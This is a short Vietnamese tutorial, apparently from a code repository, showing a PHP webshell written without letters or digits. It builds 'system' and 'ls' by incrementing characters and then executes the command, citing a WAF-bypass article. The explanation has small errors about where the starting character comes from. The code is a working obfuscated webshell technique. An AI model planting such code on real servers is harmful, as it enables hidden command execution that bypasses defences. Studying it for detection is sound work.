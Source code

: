 # PHP webshell with no alphanumeric

Mục tiêu là tạo ra hàm system('lsls') với không kí tự chữ cái nào

```php
<?php 
$_=[];
$_=@"$_";
$_=$_[3];
$___="";
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; //s
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;//y
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;//s
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;//t
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;//e
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;//m
$___.=$__;

$____="";
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;//l
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; //s
$____.=$__;

$_=$____;
$___($_);
?>
```

- Tạo ra webshell bằng cách cộng kí tự và tạo ra chuỗi
- Giải thích cơ chế: 
    1, Tận dụng chuỗi ký tự ASCII:
      - Biến $__ bắt đầu với giá trị ASCII của ký tự đầu tiên ($_[3]) của chuỗi rỗng, sau đó được tăng dần bằng toán tử tăng ++ để đạt được các ký tự mong muốn (s, y, s, t, e, m và l, s).
    2, Ghép nối chuỗi để tạo hàm và tham số:
      - Biến $___ được xây dựng bằng cách ghép nối các ký tự để tạo thành hàm system.
      - Biến $____ được ghép nối các ký tự để tạo ra tham số ls.
    3, Gọi hàm:
      - Cuối cùng, $___($_) gọi hàm system với tham số là chuỗi ls, thực thi lệnh ls trên hệ thống.
- Tài liệu tham khảo: [https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/](https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/)